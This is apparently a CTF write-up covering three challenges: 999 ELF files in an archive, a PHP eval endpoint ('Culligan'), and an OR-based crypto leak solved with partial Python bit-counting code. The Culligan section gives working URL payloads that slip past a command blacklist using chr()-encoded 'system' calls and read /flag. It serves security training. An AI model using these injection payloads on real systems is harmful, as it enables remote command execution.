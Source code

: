 `file decrypted` => `decrypted_little_stars.png: gzip compressed data, from Unix, original size modulo 2^32 18851840`

Opening the archives and stuff leads us to 999 files, `little_star_2.txt` up to `little_star_1000.txt`, which are actually ELF files.

Running `./little_star_*.txt` display a game of possibly warships? but idk how to play it

POST-CTF - apparently the solution was that 1 file out of the 999 files had a different sha, meaning it was different, and held the flag within -.-

# Culligan

Opening up the webpage, we see a simple PHP script that will do eval on the parameter `culligan`, having in place a big list of blacklisted commands. That list is easily bypassable if we use obfuscation via `chr`. Using this template `?culligan=$x=chr(115).chr(121).chr(115).chr(116).chr(101).chr(109);$x();` we can run `system` for whatever command we want (the command needs to be encoded as well). After fiddling around running a `ls`, and then `ls /`, we can see that the flag is located in `/flag`. Using that template to run `cat /flag` gets us the flag: `?culligan=$x=chr(115).chr(121).chr(115).chr(116).chr(101).chr(109);$x(chr(99).chr(97).chr(116).chr(32).chr(47).chr(102).chr(108).chr(97).chr(103));`

Flag: `ACS_IXIA_CTF{f1lt3rinG_mIghT_Not_be_dat_effectiv3}`

# bytel3ak

Upon first glance, I honestly had no idea what to do. That hint was a savior.
I started applying what the hint said, count the bits of 1 for each bit position in the ciphertext and aggregate them (add them up).
Then, knowing how the flag starts, namely `ACS_KEYSIGHT_CTF{`, I translated that into binary, and started fiddling around, looking at the counts of 1 for each of the bits and comparing them to the value in the count, and observed that 1 corresponds with a higher count, and whatever falls below that is 0. With a bit of fiddling around with the threshold, we obtain the flag.

Thinking in hind-sight, that should've been the approach from the beginning, seeing as how the `OR` operation preserves the bit 1 (it is 1 when either of the operands is 1), and as the ciphertext is obtained randomly, it should have a random distribution of 0s and 1s, thus the spikes would be caused by bits of 1 present in the plaintext, but it is what it is.


```Python
def bit_profile(ciphertext, length):
    profile = [0] * (length * 8)
    byte_array = bytearray.fromhex(ciphertext)
    for byte_index, byte in enumerate(byte_array):
        for bit_index in range(8):
            if byte & (1 << (7 - bit_index)):
                profile[byte_index * 8 + bit_index] += 1
    return profile

def aggregate_profiles(ciphertexts):
    length = len(bytearray.fromhex(ciphertexts[0]))
    aggregated = [0] * (length * 8)
    for ciphertext in ciphertexts:
        profile = bit_profile(ciphertext, length)
        for i in range(len(profile)):
            aggregated[i] += profile[i]
    return aggregated, length


def reconstruct_flag(aggregated, length, threshold):
    flag_bits = ['0'] * (length * 8)
    for i in range(length * 8):
        flag_bits[i] = '1' if aggregated[i] > threshold else '0'
    flag_bytes = []
```